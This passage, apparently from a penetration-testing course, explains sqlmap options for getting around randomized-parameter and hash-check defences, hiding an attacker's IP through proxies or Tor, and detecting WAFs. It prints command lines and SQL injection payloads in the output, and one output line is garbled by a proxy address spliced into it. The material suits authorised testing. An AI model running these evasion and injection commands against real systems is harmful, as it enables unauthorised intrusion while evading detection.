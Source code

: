 Such a mechanism is similar to the ``anti-CSRF`` technique described above, except that there is no need to parse the web page content. 

So, by simply ensuring that each request has a unique value for a predefined parameter, the web app can easily prevent ``CSRF`` attempts while at the same time averting some of the automation tools. 

For this, the option `--randomize` should be used, pointing to the parameter name containing a value which should be randomized before being sent:
```bash
$ sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185
```
### Calculated Parameter Bypass
Another similar mechanism is where a web app expects a proper parameter value to be calculated based on some other parameter value(s). 

Most often, one parameter value has to contain the message digest (e.g. `h=MD5(id)`) of another one. To bypass this, the option `--eval` should be used, where a valid Python code is being evaluated just before the request is being sent to the target:
```bash
$ sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
URI: http://www.example.com:80/?id=1%29%20AND%209978%socks4://177.39.187.70:33283ssocks4://177.39.187.70:332833D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc
```
### IP Address Concealing
In case we want to conceal our IP address, or if a certain web app has a protection mechanism that blacklists our current IP address, we can try to use a proxy or the anonymity network ``Tor``. 

A proxy can be set with the option `--proxy` (e.g. `--proxy="socks4://177.39.187.70:33283"`), where we should add a working proxy.

In addition to that, if we have a **list of proxies**, we can provide them with `--proxy-file`. This way, SQLMap will go sequentially through the list, and in case of any problems (e.g., **blacklisting of IP address**), it will just skip from current to the next from the list. 

The other option is ``Tor`` network use to provide an easy to use anonymization, where our IP can appear anywhere from a large list of Tor exit nodes. When properly installed on the local machine, there should be a `SOCKS4` proxy service at the local port ``9050`` or ``9150``. By using switch `--tor`, SQLMap will automatically try to find the local port and use it appropriately.

If we wanted to be sure that ``Tor`` is properly being used, to prevent unwanted behaviour, we could use the switch `--check-tor`. In such cases, SQLMap will connect to the `https://check.torproject.org/` and check the response for the intended result (i.e., `Congratulations` appears inside).
### WAF Bypass
Whenever we run SQLMap, As part of the initial tests, SQLMap sends a predefined malicious looking payload using a non-existent parameter name (e.g. `?pfov=...`) to test for the existence of a **WAF** (**Web Application Firewall**). 
